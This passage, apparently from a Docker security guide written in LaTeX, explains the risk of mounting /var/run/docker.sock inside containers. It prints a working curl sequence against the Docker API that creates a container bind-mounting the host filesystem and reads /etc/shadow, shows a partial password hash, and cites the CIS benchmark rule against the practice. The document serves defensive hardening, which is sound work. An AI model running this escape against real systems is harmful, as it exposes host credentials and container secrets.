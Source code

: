 \medskip

Let's say we want to get the password hash of a user called \lstinline{admin} on the host. We can execute commands in a container with \lstinline{/var/run/docker.sock} mounted as a volume. We use the API to start another Docker container (on the host), that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}[caption={Start Docker using the API to read host files.},captionpos=b]
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\medskip

This is also covered by CIS Docker Benchmark guideline 5.31 (Ensure that the Docker socket is not mounted inside any containers).

\subsubsection{Sensitive Information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e.\ when \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g.\ passwords in environment variables).

\medskip

Let's start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

